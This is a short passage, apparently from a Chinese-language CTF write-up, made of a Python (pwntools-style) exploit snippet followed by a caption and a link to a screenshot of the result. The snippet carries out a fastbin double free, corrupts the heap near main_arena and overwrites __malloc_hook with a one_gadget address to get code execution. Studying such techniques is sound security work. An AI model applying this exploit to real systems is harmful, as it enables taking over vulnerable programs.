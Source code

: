 ```python
free(chunk_C)
free(chunk_D)
free(chunk_C)

malloc(0x58,p64(libc.sym.main_arena+32))
malloc(0x58,"-s\0")
#  malloc(0x58,"G"*8)
malloc(0x58,"H"*8)                                                                                                                   

malloc(0x58,b"Y"*48+p64(libc.sym.__malloc_hook-36))

malloc(0x28,b"Z"*20+p64(libc.address+one_gadget))
malloc(1,'')
```

执行脚本效果

![image-20210401210231452](https://static.hack1s.fun/images/2021/04/01/image-20210401210231452.png)